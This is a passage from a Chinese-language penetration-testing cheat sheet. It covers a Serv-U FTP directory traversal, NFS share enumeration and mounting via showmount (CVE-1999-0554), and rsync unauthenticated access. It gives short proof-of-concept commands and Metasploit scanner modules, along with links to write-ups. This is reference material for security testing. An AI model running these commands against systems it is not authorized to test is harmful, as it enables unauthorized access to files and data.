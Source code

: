 **Serv-U FTP Server 目录遍历漏洞**
- 文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- POC | Payload | exp
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

## NFS

**文章**
- [针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)

**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- POC | Payload | exp
    ```bash
    showmount -e <目标ip>
    mount -t nfs <目标ip>:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <目标ip>
    run
    ```

## Rsync

**未授权访问**
- 文章
    - [rsync的几则tips(渗透技巧)](http://www.91ri.org/11093.html)
    - [配置漏洞之Rsync匿名访问](https://uknowsec.cn/posts/skill/%E9%85%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E%E4%B9%8BRsync%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE.html)

- POC | Payload | exp
    ```bash
    rsync <目标IP>::
    ```
    - [rsync 未授权访问漏洞](https://github.com/vulhub/vulhub/tree/master/rsync/common)

- MSF 模块
    ```bash
    use auxiliary/scanner/rsync/modules_list
    set rhosts <目标ip>
    run
    ```
